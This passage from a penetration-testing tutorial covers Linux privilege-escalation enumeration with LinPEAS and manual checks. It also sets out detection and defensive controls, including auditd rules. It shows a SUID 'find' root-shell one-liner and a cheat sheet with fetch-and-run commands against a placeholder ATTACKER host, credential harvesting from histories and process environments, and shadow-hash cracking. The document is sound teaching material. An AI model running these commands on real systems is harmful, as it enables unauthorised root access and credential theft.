web@lin-priv01:~$ grep -E '95%|SUID|cap_|NOPASSWD' lp.out | head
-rwsr-xr-x 1 root root /usr/bin/find   ---> GTFOBins (SUID)
```

LinPEAS confirms the manual finding and adds nothing new — a good sign your manual pass was thorough. Had LinPEAS surfaced something you missed (say a `cap_dac_read_search` on a binary, or a writable `.service` unit), that would be the lesson: note the gap in your manual routine and add the check. The goal over time is for your manual pass to consistently equal the scanner, so you can drop the scanner on stealthy engagements without losing coverage.

### Pivot check

Don't forget Chapter 1's network question even mid-privesc:

```bash
web@lin-priv01:~$ ip a | grep inet
    inet 10.10.10.30/24
    inet 172.16.20.5/24     <-- second NIC: this box pivots to 172.16.20.0/24
web@lin-priv01:~$ ss -tlnp | grep 127.0.0.1
LISTEN 127.0.0.1:5432  postgres     <-- internal DB, reachable after escalation
```

Even a perfectly enumerated single box is only half the picture; note the pivot and internal services for after you escalate.

### Ranked plan

| Rank | Path | Evidence | Reliability | Noise |
|------|------|----------|-------------|-------|
| 1 | SUID `find` → GTFOBins | `find -perm -4000` | deterministic | low |
| 2 | Hijack `clean.sh` PATH `rm` | root cron, relative cmd | conditional (need writable PATH dir) | low |
| 3 | Kernel exploit | `uname` | risky | high |

The clear winner is SUID `find` — deterministic and quiet. The *exploitation* (next chapter) is a one-liner:

```bash
web@lin-priv01:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=1001(web) euid=0(root) groups=1001(web)
```

`-exec ... \;` runs a command for each match; `/bin/sh -p` preserves the elevated euid; `-quit` stops after the first. Root via a single misconfigured SUID bit — found by enumeration, not luck.

---

## Part 14: Detection & Defense Angle

Linux privesc enumeration is a recognisable burst of reconnaissance.

### Telemetry

| Attacker behaviour | Detection |
|--------------------|-----------|
| `find / -perm -4000` filesystem sweep | auditd `path`/`syscall` rules; huge `stat` volume from one PID |
| LinPEAS run | new script in `/dev/shm`/`/tmp` or `curl\|sh`; auditd execve burst; EDR script heuristics |
| `getcap -r /`, mass `cat /etc/crontab` | recon command clustering |
| pspy reading `/proc` continuously | sustained `/proc/*/cmdline` reads by non-root |
| Reading `/etc/shadow`, SSH keys | file-access auditing on sensitive paths |

### Defensive controls

- **Remove unnecessary SUID/SGID and capabilities.** Audit with `find / -perm -4000` yourself and strip what isn't needed (`setcap -r`, `chmod u-s`).
- **No secrets in world-readable files**, histories, or process command lines.
- **Lock down sudo:** no `NOPASSWD` on shell-capable binaries (GTFOBins), no `env_keep+=LD_PRELOAD`, use `Defaults requiretty` cautiously.
- **Cron/systemd hygiene:** root-run scripts owned by root, not writable by others, absolute paths inside, no wildcards on untrusted input.
- **auditd** rules for `execve`, access to `/etc/shadow`, and setuid syscalls; **file integrity monitoring** on cron dirs, unit files, `authorized_keys`.
- **noexec/nosuid** on `/tmp`, `/dev/shm`, `/home` where feasible — raises the bar for dropped tooling.
- **SELinux/AppArmor in enforcing mode** — confines even a successful escalation, and defeats several classes outright.
- **Restrict NFS exports** (`root_squash`, no world exports) and audit unix-socket permissions on root daemons.

**Blue team usage:** run LinPEAS (or `lynis`) on your own hosts as an audit — it finds the same misconfigs before an attacker does.

### Concrete auditd rules

```bash
# /etc/audit/rules.d/privesc.rules
# any setuid/setgid syscall
-a always,exit -F arch=b64 -S setuid -S setgid -k priv_change
# reads of the shadow file
-w /etc/shadow -p r -k shadow_read
# writes to cron and systemd unit dirs
-w /etc/crontab -p wa -k cron_change
-w /etc/systemd/system/ -p wa -k unit_change
# execution of common enumeration binaries
-a always,exit -F arch=b64 -S execve -F exe=/usr/bin/find -k find_exec
```

Load with `augenrules --load`; hunt with `ausearch -k shadow_read`. Correlating a `shadow_read` with a `priv_change` from the same non-root PID within seconds is a near-certain escalation attempt. On the network side, a `curl|sh` pulling LinPEAS shows as an outbound fetch immediately followed by a burst of `execve` — a detectable signature even without file artifacts.

---

## Part 15: Common Pitfalls

- **Trusting LinPEAS blindly.** It flags candidates; verify every one by hand.
- **`/tmp` is `noexec`.** Use `/dev/shm` or `curl | sh` to run scripts.
- **Ignoring capabilities.** `getcap -r /` is easy to forget and often *the* path.
- **Misreading `+ep` vs `+i`.** Only effective+permitted capabilities apply directly.
- **Overlooking your own groups.** `docker`/`lxd`/`disk`/`shadow` are wins by themselves.
- **Skipping pspy.** Hidden root cron jobs and command-line creds are invisible without watching `/proc`.
- **Reaching for kernel exploits first.** They crash boxes; exhaust misconfigs and setuid-app CVEs first.
- **Not saving output.** `tee` LinPEAS to a file and grep it; scrolling a terminal misses the red lines.
- **Forgetting `-p`.** `/bin/bash -p` / `/bin/sh -p` preserves euid; without it a SUID shell drops privileges.
- **Only checking cron, not timers.** Modern boxes schedule root work with systemd timers; `systemctl list-timers`.
- **Assuming you're on the host.** Check for a container first, or you'll waste time on host privesc you can't reach.

---

## Part 15.5: Memory Hooks & Troubleshooting FAQ

### Memory hooks

- **"SUID = runs as owner."** The odd binary out of the baseline is your path.
- **"getcap or regret."** Capabilities are the most-forgotten win.
- **"pspy sees what you can't."** Root cron and command-line creds appear live.
- **"Red lines first."** Triage LinPEAS by its highlighting; don't read all 4000 lines.
- **"Verify, then trust."** Every scanner finding gets a manual confirm.
- **"`-p` or lose it."** Preserve euid on SUID shells.

### Troubleshooting FAQ

| Symptom | Cause | Fix |
|---------|-------|-----|
| LinPEAS: `Permission denied` on run | `/tmp` noexec | run from `/dev/shm` or `curl\|sh` |
| SUID shell drops back to your uid | forgot `-p` | `/bin/bash -p`, `/bin/sh -p` |
| Cron hijack never fires | script not actually writable / wrong timer | re-check `ls -la`, `systemctl list-timers` |
| "Valid" exploit fails silently | SELinux/AppArmor enforcing | `getenforce`/`aa-status`; find another path |
| `getcap` missing | minimal box | `find / -type f 2>/dev/null -exec getcap {} +` |
| Can't read root crontab | not privileged | use `pspy` to observe execution |
| Distro says version vulnerable, exploit fails | backport patch | check `changelog`/`dpkg -l`; version string lies |

---

## Part 16: Final Revision / Summary

- Linux escalation categories are finite: sudo, SUID/SGID, capabilities, cron/timers, PATH/LD hijack, writable services/sockets, powerful groups, credentials, NFS/mounts, kernel/app CVEs.
- **LinPEAS** automates the whole checklist; get it on via `curl|sh` (stealthy, `noexec`-proof) or `/dev/shm`, and *read the red/yellow* — then verify by hand.
- Manual backbone: `id`, `sudo -l`, `find -perm -4000`, `getcap -r /`, `/etc/crontab`, `systemctl list-timers`, writable-file sweep, `uname -a`, credential grep.
- **SUID escalation = the odd binary out** vs the baseline → GTFOBins. **Capabilities** = `cap_setuid`/`cap_dac_read_search` etc.
- **pspy** reveals root cron jobs and command-line secrets without root — often the most productive tool.
- Powerful groups (`docker`, `lxd`, `disk`, `shadow`) are escalations in themselves.
- Rank findings creds > sudo/GTFOBins > SUID/caps > writable cron/service > group > kernel; execute safest-first.
- Defenders strip needless SUID/caps, lock sudo, harden cron/units, monitor with auditd + FIM, and audit their own hosts with LinPEAS/lynis.
- Check **systemd timers** (`systemctl list-timers`), not just cron — modern boxes schedule root work there.
- Confirm you're on the **host, not a container** first (`/.dockerenv`, `/proc/1/cgroup`); if contained, enumerate for escape (privileged mode, docker socket, host mounts).
- Enumeration is **safe and reversible**; prefer the deterministic paths it reveals over risky kernel exploits every time.

---

## Part 17: Cheat Sheet / Quick Reference

```text
# GET & RUN LINPEAS
curl -s http://ATTACKER:8000/linpeas.sh | sh | tee lp.out    # in-memory, noexec-proof
cd /dev/shm; wget http://ATTACKER:8000/linpeas.sh -O lp.sh; chmod +x lp.sh; ./lp.sh
grep -nE '95%|CVE-|NOPASSWD|cap_|writable by' lp.out

# MANUAL BACKBONE
id; sudo -l
find / -perm -4000 -type f 2>/dev/null           # SUID
find / -perm -2000 -type f 2>/dev/null           # SGID
getcap -r / 2>/dev/null                            # capabilities
cat /etc/crontab; ls -la /etc/cron.*; systemctl list-timers --all
find / -writable -type f 2>/dev/null | grep -vE '^/proc|^/sys'
uname -a; cat /etc/os-release
cat /etc/exports; cat /proc/mounts

# WATCH ROOT PROCESSES WITHOUT ROOT
./pspy64 -pf -i 1000

# POWERFUL GROUP CHECK
id; getent group sudo docker lxd disk adm shadow

# CREDS
cat ~/.bash_history /home/*/.bash_history 2>/dev/null
grep -riE 'password|secret|token' /etc /var/www /opt 2>/dev/null
for p in /proc/[0-9]*/environ; do tr '\0' '\n' <"$p" 2>/dev/null; done | grep -iE 'pass|key'

# CONTAINER / TIMER / SECURITY-MODULE
cat /.dockerenv 2>/dev/null; grep -E 'docker|lxc|kube' /proc/1/cgroup
systemctl list-timers --all
getenforce 2>/dev/null; aa-status 2>/dev/null
capsh --print 2>/dev/null | grep cap_sys_admin

# CRACK SHADOW (if readable)
unshadow /etc/passwd /etc/shadow > h.txt; hashcat -m 1800 h.txt rockyou.txt
```

Keep this cheat sheet as your first-five-minutes muscle memory on any Linux foothold. Run the identity/SUID/cap/cron block first, then decide whether a scanner is worth the noise.

---

## Part 18: Practice Labs & Resources

- **TryHackMe — "Linux PrivEsc"** and **"Linux PrivEsc Arena"** — cover every enumeration category here with exploitable targets.
- **TryHackMe — "Common Linux Privesc"** — drills the manual checklist specifically.
- **HackTheBox Academy — "Linux Privilege Escalation"** module — the definitive graded coverage, including LinPEAS.
- **TryHackMe — "Wildcard" / "tar" challenges** and the cron rooms — practise wildcard injection and cron hijacks specifically.
- **PEASS-ng repository (LinPEAS/pspy) issues & wiki** — read how the checks work; it deepens your manual understanding.
- **Proving Grounds "Practice" Linux boxes** — realistic enumeration-first targets that punish exploit-spraying and reward the disciplined pass this chapter teaches.
- **GTFOBins** — the lookup table for every SUID/sudo/capability finding; you'll use it constantly next chapter. Study the `suid`, `sudo`, and `capabilities` tabs specifically.
- **pspy, LinPEAS (PEASS-ng), lse.sh, LinEnum, linux-exploit-suggester** — run each in a lab to learn its output before you need it live.
- **HackTheBox / Proving Grounds easy Linux boxes** — practise a full enumeration pass on every box before touching an exploit.
- **VulnHub — "Basic Pentesting", "Mr-Robot", "Kioptrix"** — offline targets for the whole loop, no VPN needed.
- **pwn.college — "Program Misuse" module** — drills GTFOBins-style SUID abuse from first principles.
- **OverTheWire — Bandit (later levels) & Leviathan** — SUID and enumeration puzzles that build the reflexes this chapter needs.
- **HackTricks — Linux local privilege escalation checklist** — the exhaustive reference to cross-check your manual pass.

A closing thought to carry forward: enumeration is the part of the craft that never stops paying off. Every hour spent making your manual pass faster and more complete compounds across every box you ever touch, because the categories don't change — only which one this particular target got wrong. Exploits come and go with patches; the discipline of looking everywhere and reading carefully is permanent.

### Self-check before moving on

On any lab box you should be able, in under ten minutes and without a scanner, to: enumerate SUID/SGID and spot the odd one out; list capabilities and recognise `cap_setuid`; read `sudo -l` and map any entry to GTFOBins; find every root cron job and systemd timer and judge whether you can influence it; identify writable PATH/library resolution points; confirm host-vs-container; and produce a ranked plan. Then run LinPEAS and confirm it surfaced nothing you missed. When your manual pass matches the scanner, you're ready for exploitation.

The next chapter takes each of these enumeration findings and turns it into a root shell: **Linux Privilege Escalation Part 2 — SUID, capabilities, cron, PATH, and kernel exploitation**, with worked exploitation of every category surfaced here.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-privilege-escalation/02-linux-privilege-escalation-part-1-enumeration-linpeas-and-manual), with comments and the latest edits.*
